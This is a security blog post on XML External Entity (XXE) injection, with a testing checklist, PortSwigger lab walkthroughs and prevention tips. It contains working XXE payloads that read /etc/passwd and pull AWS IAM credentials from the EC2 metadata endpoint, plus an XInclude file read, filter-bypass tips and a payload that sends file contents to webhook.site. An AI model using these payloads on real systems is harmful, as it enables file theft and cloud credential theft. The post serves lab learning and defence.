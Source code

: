 ```yaml
---
layout: post
title: XXE (XML External Entities) Injection
subtitle: How malicious user can abouse External Entities to perform XXE
date: 2025-07-30 12:43
author: Ren Sie
comments: true
category: injection
---
```

The method isn’t as popular as others because of the patches. But if comes across with application that access and passing XML, worth trying!

{: .box-note}
**Note:** 💡 Try pass XML data to API endpoint. They sometimes accept XML data besides JSON data.

### XML
Some Apps use XML to transfer data. XML has its default entities, which define the way of representing data or special characters. For instance: 
- `&amp;` → `&`
- `&lt;` → `<`
- `&gt;` → `>`

#### **External Entities**
By default, XML has predefined entities to represent special symbols (like `&lt;` for `<`), but **XML External Entities (XXE)** allow users to define **custom entities**. These custom entities can reference **external resources**, such as _local files_ or _external URLs_. This flexibility can be exploited to read sensitive files on the server, or run RCE.  
They can be defined using the `<!ENTITY>` syntax in XML like this:
~~~
xml:
<!ENTITY entity_name SYSTEM "path_to_file_or_url">
~~~
An example of malicious XML can be:
The entity `xxe` in the `creds` document reference the `/etc/passwd`. When the file path (external URL) is passed, it will be places at `&xxe;`.
~~~
xml:
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
~~~

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

  #### Objective  
  1. **Identify endpoints that can process XML**  
      * Send test requests with XML payloads and set Content-Type to `application/xml` or `text/xml`.  
      * Inspect response content: `Content-Type: application/xml` or `Content-Type: text/xml` as accepted request headers.  

  2. **Create a working XML payload that can be adapted to deliver exploits**  
      * First create a valid XML structure that the application accepts  
      * Then modify it with malicious content tailored to target the application's XML processing logic  

  3. **Test identified endpoints for XXE**  

  #### Attack surface discovery  
  1. **Identify endpoints that accept XML payloads**  
      * Review requests in proxy for XML data (e.g., Burp Suite)  
      * Identify endpoints that accept JSON by sending XML  
      * Identify endpoints that accept images by sending SVG images  
      * Identify endpoints that accept documents by sending DOCX or PDF files  

  2. **Test with the header Content-Type: application/xml**  
  3. **Verify working XML payloads that can be adapted to deliver exploits**  
      * Confirm the endpoint accepts and processes XML  
      * Inject harmless modifications to observe behavior changes  

  4. **Locate internal DTDs**  
      * <!DOCTYPE ...> that contains `[internal subset]`, `[internal declaring elements]`, `[internal declaring entities]`, or `[attribute rules]`  
  
  #### Testing
  
  1. **Test for external entities with a simple non-malicious payload**  
      * <!ENTITY harmless SYSTEM "http://example.com/">  
      * If the server processes external entities, it will fetch the contents from example.com  

  2. **Test for external entities with an available file**  
      * <!ENTITY password SYSTEM "file:///etc/passwd">  

  3. **Test for external entities with an available endpoint we control**  
      * [Webhook](https://webhook.site/)  

  4. **Test for external entities with other available endpoints**  
      * <!ENTITY ext SYSTEM "http://internal-api.local/admin">  

  5. **EC2 metadata endpoint http://169.254.169.254/latest/meta-data**  
      * [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)  

  6. **Test filters and restrictions**  
      * Send common disallowed characters or keywords (e.g., `<`, `<!DOCTYPE>`, `$`, `SYSTEM`, `ENTITY`)  
      * Bypass filters using encoding or obfuscation (e.g., URL encoding, Unicode encoding, base64 encoding, null byte insertion, or alternate whitespace characters)  
      * Trigger error messages to exfiltrate information (e.g., `<!DOCT`)  
      * Nested Parameter Entities with External Payload (e.g., <!ENTITY external_dtd SYSTEM "http://example.com/payload.dtd">)  
      * Splitting Payload Across Multiple Parameters  

  7. **Test for denial of service  
      * [Billion laughs](https://en.wikipedia.org/wiki/Billion_laughs_attack)  

  8. **Test for code execution
      * Tag Injection
  
#### Impact

1. **Can we read sensitive files?**

   - Configuration files (e.g., `/etc/passwd`)
   - System files (e.g., `/etc/shadow`)
   - SQLite files
   - SSH keys (e.g., `~/.ssh/id_rsa`)

2. **Can we exfiltrate sensitive information?**

   ```xml
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE foo [  
     <!ENTITY xxe SYSTEM "file:///etc/passwd">  
     <!ENTITY % remote SYSTEM "https://webhook.site/?data=%xxe;">  
     %remote;
   ]>
   <foo>&xxe;</foo>
   ```

3. **Can we achieve code execution?**  
  
</details>

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection) to show how this vulnerability can lead to:
#### 1. Exploiting XXE using external entities to retrieve files  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity containing the path to the file `etc/passwd`.
   ~~~
   <?xml version="1.0" encoding="UTF-8"?>  
   <!DOCTYPE test [  
   <!ENTITY xxe SYSTEM "file:///etc/passwd">  
   ]>  
   <stockCheck><productId>&xxe;</productId><storeId>2</storeId></stockCheck>  
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin
   
#### 2. Exploiting XXE to perform SSRF attacks  
I captured and modified `POST /product/stock` with Burp Repeater. Adding the `!DOCTYPE element` that defines an external entity `test` to access EC2 instance metadata. More details about what _EC2 instance metadata_ is, visit [Access instance metadata for an EC2 instance](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "iam" entity inside  
   > "Invalid Product ID:  
   > iam"
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam">  
   ]>
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>
   ~~~
   > Response: It tells us there's an "security-credentials" entity inside  
   > "Invalid Product ID:  
   > security-credentials"

   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: It tells us there's an "admin" entity inside  
   > "Invalid Product ID:  
   > admin"  
   
   ~~~
   < ?xml version="1.0" encoding="UTF-8"?>  
   < !DOCTYPE test [  
   < !ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">  
   ]>  
   < <stockCheck><productId>&xxe;</productId><storeId>3</storeId></stockCheck>  
   ~~~
   > Response: We retrieves admin's access key
   > "Code":"Success",  
   > "LastUpdated":"2021-11-15T11:29:31.956206Z",  
   > "Type":"AWS-HMAC",  
   > "AccessKeyId":"BordnBx2QrCdt7VGVWT3",  
   > "SecretAccessKey":"yBZJPYWjn4XFnBLk3fqe305Fqdc7YT3SUs4vomxF",  
   > "Token":"kMW7yE0Z00lCE8zoDhS1rjX0vRBQG0EepbmRtzxmyzW0g8QtJ4j",  
   > "Expiration":"2027-11-14T11:29:31.956206Z"  

{: .box-note}
**Note:** 💡SSRF exploits a server's request-making functionality, allowing user to make a crafted request that pivots from the public-facing application and uses the server's trusted internal network position to scan, access, and exfiltrate data from otherwise unreachable backend services and cloud metadata endpoints.

#### 3. Exploiting XInclude to retrieve files  
   I identified the server-side xml parser by studying `GET /product?productId=3` on Burp Proxy. Insert the `Xinclude namespace` and the filepath to `POST /product/stock` on Repeater.
   ~~~
   productId=<test  
   xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/>  
   </test>&storeId=2
   ~~~
   > Response:  
   > "Invalid product ID: root:x:0:0:root:/root:/bin/bash  
   > daemon:x:1:1 : daemon :/usr/sbin:/usr/sbin/nologin  
   > bin:x: 2:2 :bin:/bin:/usr/sbin/nologin  
   > sys:x: 3:3 : sys : /dev:/usr/sbin/nologin  
   > sync:x: 4:65534 : sync:/bin:/bin/sync  
   > www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin  
   > backup:x: 34:34 :backup:/var/backups:/usr/sbin/nologin  
   > apt:x:100:65534 :: /nonexistent:/usr/sbin/nologin  
   > peter:x:2001:2001 :: /home/peter:/bin/bash  
   > dnsmasq:x:101:65534 :dnsmasq, ,,:/var/lib/misc:/usr/sbin/nologin  
   > messagebus:x:102:101 :: /nonexistent:/usr/sbin/nologin

{: .box-note}
**Note:** 💡XInclude is used to bypass DTD-based Mitigation in this instance, If the application is blocking <!DOCTYPE>, an XInclude might still succeed.

### Prevention
1. Disable XML external entity
2. Use JSON instead of XML
3. Validate and Sanitize XML Input (with XSD)
4. Restrict Network/File Access (OS or Container Level)

### Also Read
[WSTG - Testing for XML Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/07-Testing_for_XML_Injection)
